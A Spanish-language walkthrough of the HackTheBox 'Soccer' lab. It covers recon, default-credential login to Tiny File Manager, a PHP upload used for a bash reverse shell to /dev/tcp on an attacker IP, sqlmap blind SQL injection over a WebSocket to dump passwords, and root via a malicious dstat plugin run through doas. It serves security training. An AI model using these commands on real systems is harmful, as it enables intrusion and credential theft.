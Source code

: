 ```yaml
---
layout: single
title: Soccer - HackTheBox
excerpt: " This CTF focuses on success through enumeration. "
date: 2023-06-20
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-soccer/soccer.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:  
  - mysql
  - ssh
  - suid
---
```


This CTF focuses on success through enumeration.

# Summary
- IP: 10.10.11.194
- Ports: 22,80,9091
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	- 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	- 80 -> nginx 1.18.0
	- 9091 -> xmltec-xmlmail?

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,9091 -sCV 10.10.116.216 -oN targeted
``` 

- Reconocimiento de directorios con gobuster:

```bash
$gobuster dir -u soccer.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php
```

- Encontramos el directorio "/tiny", accedemos y nos encontramos con un login de "Tiny File Manager", buscamos en google las credenciales por defecto de este recurso y probamos.

- Accedemos como admin, analizamos la web, nos permite subida de archivos en el directorio "/uploads", subimos un PHP con una reverse shell y accedemos:

```
http://soccer.htb/tiny/uploads/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.85/443%200%3E%261%22
```

- Como el usuario www-data buscamos recursos para escalar privilegios:
- Recordamos que el puerto 9091 estaba aabierto, sospechamos de un websocket, lo comprobamos:

```bash
websocat ws://soccer.htb:9091 -v
```

- Confirmado ya que se trata de un Web Socket, buscamos vulnerabilidades para la misma, encontramos este artículo [Automating Blind SQL injection over WebSocket | Rayhan0x01’s Blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

- Ejecutamos la script de python para redireccionar los datos de la ws y poder acceder a estos como localhost para realizar un ataque de SQL Injection:
- Cambiamos los campos "ws-server" por el puerto 9091 y "data" por "id"

```bash
$python3 exploit.py
```

- Ahora atacamos con sqlmap. primero en búsqueda de los nombres de las bases de datos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" --dbs
```

- Ahora buscamos las tablas que hay en la BD "soccer_db":

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db --tables
```

- Enumeramos las columnas de esta tabla:

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts --columns
```

- Encontramos las columnas username y password, las dumpeamos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts -C username,password -dump
```

- Obtenemos la contraseña del usuario "player" accedemos por SSH:

```bash
$ssh player@10.10.103.124
```

- Obtenemos la primera flag.

# Escalando privilegios:


- Buscamos permisos SUID:

```bash
$ find / -perm -4000 2>/dev/null
```

- Nos encontramos con "doas", buscamos todos los archivos doas que hayan:

```bash
$ find -name doas 2>/dev/null l grep doas
```

- Nos encontramos un "doas.conf", lo leemos, nos dice que un binario dstat se puede ejecutar como root sin contraseña:

```bash
/usr/bin/dstat
$ doas -u root /usr/bin/dstat
```

- Tenemos capacidad de escritura en la ruta share/dstat que es en donde se guardan los plugins:
```bash
$ ls -la /usr/local/share/dstat
```

- Nos creamos un plugin .py que otorgue permisos SUID a la bash y lo ejecutamos como root:
```bash
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
bash -P
```

- Ya somos ROOT y obtenemos la flag.



# Holaaaaaaaaaaaaaaa


![](blog/_posts/images/soccer/DedSec_logo.webp)
